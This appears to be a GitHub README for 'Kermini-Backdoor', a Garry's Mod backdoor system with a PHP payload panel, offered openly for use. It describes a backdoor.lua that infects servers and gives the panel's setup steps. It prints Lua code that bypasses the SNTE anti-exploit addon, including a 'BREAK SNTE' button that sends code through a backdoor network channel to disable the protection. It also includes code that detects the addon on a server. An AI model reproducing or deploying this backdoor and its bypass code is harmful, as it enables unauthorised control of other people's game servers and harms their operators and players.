 # Kermini-Backdoor-Gmod
Kermini-Backdoor : a gmod simple backdoor System Initially, I created this for my personal use but I am not an egoist, so keep going and have fun | Do not forget to configure it correctly

backdoor.lua : The file that contain the code to infect servers |Can sometimes spam errors when a player join

 # Kermini Official Discord
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc
 https://discord.gg/SzSFeNc

# Installation Process | Files

open main.php and change Database settings and the others options if you want

open class/Config.php and change Database settings

open deletepayload.php and change Database settings

open send_payload_update.php and change Database settings

open install folder and change Database settings

open phpMyAdmin and execute Kermini-s-q-l.sql 

open www.[DOMAIN].com/install and create an account |Delete this folder after this step

Here you go ! Enjoy

# Hey i found an exploit related to the panel !

No problem, just contact me and tell me what is going wrong, i will do my best to resolve it.

# SNTE
https://steamcommunity.com/sharedfiles/filedetails/?id=1308262997

This addon can sometimes block your Payloads so try bypasses 

timer.Simple(0.5, function()
    function ulx.luarun(calling_ply, command)
        print("ez snte")
    end
    bad_net = ""
    local bad_net = ""
    local global_nets = ""
    global_nets = ""
end)
___
local Macro = vgui.Create("DButton", BackGround)
Macro:SetPos(255, 160)
Macro:SetParent(Controller)
Macro:SetTextColor(Color(255, 255, 255, 255))
Macro:SetSize(200, 25)
Macro:SetText("BREAK SNTE")
Macro.Paint = function()
    surface.SetDrawColor(50, 50, 50 , 200)
    surface.DrawRect(0, 0, Macro:GetWide(), Macro:GetTall())
    surface.SetDrawColor(0, 0, 0, 200)
    surface.DrawOutlinedRect(0, 0, Macro:GetWide(), Macro:GetTall())
end
___
Macro.DoClick = function()
    net.Start(netKey)
        net.WriteString([[
            _G.SNTE = function() end
        ]])
        net.WriteBit(1)
    net.SendToServer()
    chat.AddText(Color(255,204,153), "亗ADM TEAM", Color(255, 255, 255), "LANCER !" )
    SploitNotify("LANCER")
    surface.PlaySound("buttons/button15.wav")
end

# How to detect SNTE ON A SERVER :

local isSNTE = false
if ConVarExists("snte_dupefix") or file.Exists( "autorun/server/snte_source.lua", "LUA" ) == true then
    isSNTE = true
end

if isSNTE then
    chat.AddText(Color(26, 48, 219), "[KERMINI]", Color(35, 142, 219), " SNTE DETECTED")
end

# The code is telling me something 

yep i can code in php but im not a pro designer so i used
- https://github.com/bcool/ULX-Global-Ban/tree/master/WebPage/TCB-Theme-master (For the display)
- And somthing called Gbackdoor (I know there is exploits related to this panel, i made a different code for some parts) 

ps : gbackdoor used only for server adding/update | Payload system have been a little bit modified

                     97/71/86/53/73/72/108/118/100/83/66/51/98/50/52/103/52/111/67/
